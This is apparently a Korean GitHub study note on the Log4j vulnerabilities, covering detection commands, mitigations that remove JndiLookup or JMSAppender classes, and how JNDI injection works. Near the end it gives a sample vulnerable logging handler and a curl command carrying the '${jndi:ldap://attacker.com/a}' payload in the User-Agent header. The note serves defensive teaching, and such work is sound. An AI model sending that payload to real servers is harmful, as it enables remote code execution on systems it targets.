 
[로그란?](https://github.com/sungmin4036/infomation_security/blob/main/etc/log%EB%9E%80%3F.md)

---

- log4j란?

: log4j의 기능은 웹 서비스 동작 과정에서 일어나는 모든 기록을 남겨 침해사고 발생 및 이상징후를 점검하기 위해 필수적으로 필요한 기능.  

무료로 제공되는 오픈소스 프로그램으로 Java 기반의 모든 어플리케이션에서 사용할 수 있습니다.

<br>

- log4j 주로 사용하는 서비스는? 
: 일반적인 웹 사이트, 쇼핑몰, 그룹웨어 등 JAva를 기반으로 한 JVM(Java Virtual Machine) 환경을 사용하는 모든 서비스에서 사용 가능

<br>

- log4j  사용하고 있는지 확인 하는 방법

```
linux

- dpkg -l | grep log4j
- find / -name 'log4j*'
```

```
windows

- window explorer의 검생 기능(log4j 검색)을 이용

```

```
Java Spring Framework Maven

log4j가 설치된 경로의 pom.xml 파일을 열어 "log4j-core"로 검색

```

![image](https://user-images.githubusercontent.com/62640332/159493244-9f2caebe-805e-43c8-84ad-9e99ca944501.png)

<br>

- log4j 1.X 버전 영향은?

: log4j 1.x 버전은 CVE-2021-44228, CVE-2021-45046 취약점에는 영향을 받지 않으나 CVE-2021-4104에 해당.

본 취약점은 `JMSAppender`를 사용하지 않는 경우 취약점의 영향은 없으나 , 1.x 버전은 이미 2015년 이후 업데이트가 종료되었으므로 보안 위협들에 노출될 가능성이 높습니다. 최신버전으로 업데이트 적용하기를 권고


<br>

- 버전에 따라 log4j 조치하는 방법 및 업데이트 불가능할 경우 대응 방법.

  - JAVA사용 버전에 따라 최신 LOG4j 버전으로 업데이트 수행

  - 즉시 업데이트가 어려운 경우 log4j 버전 따른 해결 방안 

```
zip : 압축하는 리눅스 명령어

-d : 특정경로의 class를 delete 한다. 

-q : 메세지 출력 제한 옵션이다. 
```

  - log4j-2.x 버전 ] CVE-2021-44228, CVE-2021-45046 : JndiLookup 클래스를 경로에서 제거
    
    - zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class

    - log4j-core JAR 파일 없이 log4j-api JAR파일만 사용하는 경우 취약점의 영향 받지 않음



  - log4j-1.2.x 버전] CVE-2021-4104 : JMSAppender 사용 확인 후 코드 수정 또는 삭제

    - zip -d log4j-1.2.12.jar org/apache/log4j/net/JMSAppender.class  

    - zip -d log4j-1.2.*.jar org/apache/log4j/net/JMSAppender.class (* 모든버전일괄)




<br>

- 보안 업데이트 안되있을시 발생할수 있는것

: 원격의 공격자가 이 취약점을 이요하여 악성코드 유포, 중요 데이터 탕취, 임의의 파일 다운로드 및 실행 가능.


---

![image](https://user-images.githubusercontent.com/62640332/160333695-05063e41-e79f-43ba-81c3-ef50c793ce60.png)





---


### ㅁ JNDI

: JNDI 는 Java Naming and Directory Interface의 약자로 클라이언트가 서버상의 데이터나 객체를 lookup 할 수 있는 Java API

찾고자 하는 객체에 접근 할 수 있는 단일의 인터페이스를 제공하며 이 API를 이용해서 객체를 lookup, querying 그리고 binding 할 수 있다.

예로 아래와 같은 소스코드가 실행이 가능하다 

```
DataSource ds = (DataSource) ctx.lookup("java:comp/env/jdbc/datasource");
assertNotNull(ds.getConnection());
```

![image](https://user-images.githubusercontent.com/62640332/160330119-327b75d5-d130-4ba2-8e00-6dd695e18650.png)

- Log4J 에서 JNDI 호출

특정 버전의 Log4J에서 JNDI를 포함한 쿼리를 호출하는 경우 내부적으로 객체를 lookup 하는 기능이 있었다.

특정 버전에서 Log4J 함수로 특정한 쿼리를 실행하면 JNDI를 실행한다. 그래서 단순한 로그만 출력해도 아래 그림처럼 시스템 내부의 특정 프로그램을 실행할 수 있게 된다.

아래 그림은 Log4J를 실행해서 원격 서버의 프로그램이 실행된 예다.

![image](https://user-images.githubusercontent.com/62640332/160330264-db894897-66c0-4101-be5b-cf2f948ac896.png)

그래도 출력하는 로그가 하드 코딩돼서 실행중에 바뀌지 않는다면 문제는 없다. 직접 로그 안에 JNDI를 심어두는 일은 거의 없을 거니까. 그런데 서버 프로그래밍을 하다 보면 사용자가 갖고 있는 정보나 URL의 파라미터를 출력하게 되는 경우도 종종 생긴다. 만약 해커가 로그를 출력하는 부분을 파악해 해당 api에 의도적으로 JNDI LDAP 정보를 심어 넣는다면 외부에서 코드를 실행할 수 있게 된다.

```
public class VulnerableLog4jExampleHandler implements HttpHandler { static Logger log = LogManager.getLogger(VulnerableLog4jExampleHandler.class.getName());
/** * A simple HTTP endpoint that reads the request's User Agent and logs it back.
* This is basically pseudo-code to explain the vulnerability, and not a full example.
* @param he HTTP Request Object */ 
public void handle(HttpExchange he) throws IOException { String userAgent = he.getRequestHeader("user-agent");
// This line triggers the RCE by logging the attacker-controlled HTTP User Agent header.
// The attacker can set their User-Agent header to: ${jndi:ldap://attacker.com/a}

log.info("Request User Agent:{}", userAgent); ... } }
```

위의 코드를 보면 사용자의 user-agent 정보를 log.info 로 출력한다. 디버깅 용도로 이런 로그 한번 쯤은 찍어두게 했을 것이다. 그런데 만약 해커가 User-Agent를 이렇게 바꿨다고 해보자 

```
curl 127.0.0.1:8080 -H 'User-Agent: ${jndi:ldap://attacker.com/a}'
```
그러면 User-Agent를 출력하는 코드가 영락 없이 JNDI를 호출하는 코드가 실행되고 해커의 서버에선(attacker.com) 우리의 서버와 JNDI를 통해서 내부 라이브러리를 실행할 수 있게 된다.

[출처]
1. kisa log4j 보안 취약점 가이드
2. https://selfish-developer.com/entry/log4j-%EC%9D%B4%EC%8A%88-%EC%82%B4%ED%8E%B4%EB%B3%B4%EA%B8%B0

